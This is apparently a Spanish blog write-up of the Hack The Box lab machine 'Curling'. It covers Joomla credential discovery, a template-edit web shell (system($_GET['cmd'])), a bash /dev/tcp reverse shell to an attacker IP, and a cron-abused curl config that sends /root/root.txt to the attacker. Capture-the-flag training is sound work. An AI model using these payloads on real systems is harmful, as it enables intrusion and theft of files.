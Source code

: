 ```yaml
---
layout: post
title: Hack The Box Curling Write-Up
date: 2024-11-18
categories: [Write-Ups, HackTheBox, Machine, Easy]
tags: [curl, cyberchef, joomla!, rce, pspy, cron, eJPT, IntroToDante, Easy, Web]
---
```

![Curling Logo](/assets/post_details/curling/curling_logo.png)
# Hack The Box: Curling Write-Up
La **maquina easy** [Curling](https://app.hackthebox.com/machines/160) de [Hack The Box](https://app.hackthebox.com/) trata de una explotación al **CMS Joomla!** mediante una enumeración previa consiguiendo acceso y realizando un **RCE**. La escalada de privilegios consta de tareas **CRON** con la herramienta **PSPY**.

## Enumeration
Realizamos la enumeración de puertos y de servicios en los que encontramos abiertos los puertos:
- 22 - SSH -> `OpenSSh 7.6p1`
- 80 - HTTP -> `Apache httpd 2.4.29`, el cual contiene el **CMS** **Joomla!**.
```bash
# Escaneo de todos los puertos abiertos
nmap -p- -sS -n --min-rate 5000 --open 10.10.10.150 -oN tcp_scan.txt

# Escaneo puertos especificos
nmap -p22,80 -Pn --min-rate 5000 -n -sCV --open 10.10.10.150 -oN full_scan.txt
```
![NMAP](/assets/post_details/curling/curling_nmap.png)
### HTTP(80) - Joomla!
Se trata de un blog, donde el usuario **Super User** ha agregado varios posts, en estos posts existen varias palabras entre comillas o que pueden ser interesantes como `pebble`, `Floris`, `curl`, `curling2018`.
![WebPage](/assets/post_details/curling/curling_webpage.png)

Realizando un `Ctrl + O` o analizando el codigo, avistamos un comentario sobre un posible archivo en el sistema **secret.txt**.
![Secret Code](/assets/post_details/curling/curling_secret.png)

Este archivo existe en la raiz de la aplicación web, contiene un string encriptado con algun tipo de metodo de encriptación.
![Secret Note](/assets/post_details/curling/curling_show_secret.png)

Probramos a decodificarlo con **base64** y con exito obtenemos un string parecido a uno de los del texto, aunque este tiene una `!` por lo que podria tratarse de una credencial.
![base64](/assets/post_details/curling/curling_base64.png)

Una vez tenemos lo que puede ser la credencial debemos de obtener el nombre de usuario, si analizamos este post acaba dejando un nombre, normalmente esto se hace para dejar quien ha escrito el texto. En este caso el string es `Floris`, aunque en el login lo probaremos todo en lowercase `floris`.
![Username Joomla](/assets/post_details/curling/curling_username_joomla.png)

Mediante la ruta `administrator`, el cual es el acceso de administración del **CMS Joomla!**, en el que introducimos las credenciales y con exito obtenemos acceso al panel.
![Login Admin](/assets/post_details/curling/curling_login_admin.png)
## FootHold
### Template RCE Joomla!
Existen varias maneras de tomar el control desde **Joomla!** una de ellas es la [siguiente](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla):
- Clicar en `Templates`, abajo a la izquierda en el menu de `Configuration`.
- Clicar en una nombre de template, por ejemplo `protostar`, debajo de la cabecera de `Templates`, esto nos llevara a pagina de modificación de templates
- Finalmente deberemos de editar un archivo del template, en nuestro caso editamos el `error.php` agregandole `system($_GET['cmd'])`.
![RCE](/assets/post_details/curling/curling_rce.png)

Una vez tenemos realizada la modificación del archivo **php**, mediante **curl** mandamos una petición con la flag `?cmd=`, y el comando que queramos que se ejecute a nivel de sistema.
![Curl RCE](/assets/post_details/curling/curling_curl_rce.png)

Para conseguir acceso al sistema nos levantamos un **listener** por el puerto **443** en mi caso e introducimos un **reverse shell** de bash apuntando a nuestro servidor y conseguirmos acceso al sistema como **www-data**:
```bash
curl -s "http://10.10.10.150/templates/protostar/error.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.4/443 0>%261"
```
![Get www-data](/assets/post_details/curling/curling_get_www-data.png)
## PrivEsc
### www-data -> floris
Una vez hecho realizamos un **Tratamiento de TTY** para así poder trabajar de una mejor manera.

Empezamos a enumerar el sistema buscando la credencial del usuario **floris** para asi poder escalar privilegio, encontramos un archivo en el home del usuario `floris`, al cual tenemos permisos de lectura, aunque es un archivo en binario por lo que no lo podemos leer. 
![Password Backup](/assets/post_details/curling/curling_password_backup.png)

Aunque con [CyberChef](https://cyberchef.org) podemos realizar un **magic decrypt** para asi ver el contenido del archivo.
En este caso el archivo binario, contiene un archivo en txt llamado **password.txt** el cual contiene una credencial.
![CyberChef](/assets/post_details/curling/curling_cyberchef.png)

Esta credencial nos sirve para escalar privilegio al usuario **floris**.
![Get User](/assets/post_details/curling/curling_get_user.png)
### floris -> get_flag
Utilizamos [pspy](https://github.com/DominicBreuker/pspy) para la enumeración de tareas cron en el sistema, para esto nos descargamos la herramienta **pspy64**, y la transferimos con la herramienta **scp**, comunicación a traves del protocolo **ssh**.
```bash
mv /home/ant0/Downloads/pspy64 .
chmod +x pspy64
scp pspy64 floris@10.10.10.150:/home/floris
```

Podemos que el usuario **root** esta realizando algunas tareas cada cierto tiempo, en este caso copia el contenido del archivo `/root/default.txt` a `/home/floris/admin-area/input` el cual contiene `url = 127.0.0.1`.

El comando con **curl** realiza lo siguiente:
- La opción **-K** le indica a curl que lea un archivo de configuración en la ruta `/home/floris/admin-area/input`. 
  Este archivo puede contener múltiples opciones de configuración para curl, como la URL del servidor, encabezados personalizados.
- Con `-o /home/floris/admin-area/report` el contenido resultante de la solicitud HTTP será guardado en `/home/floris/admin-area/report`.
![Cron Tasks](/assets/post_details/curling/curling_show_cron.png)

Lo que podemos realizar para capturar la flag es de apuntar a nuestra maquina con la propiedad **url** y con **data** hacia la flag: 
```bash
url = "http://10.10.14.4"
data = @/root/root.txt
```

Nos abrimos un listener en nuestra maquina por el puerto 80 y cuando la tarea se vuelva a ejecutar nos mostrara la flag:
![Get Flag](/assets/post_details/curling/curling_get_system_flag.png)
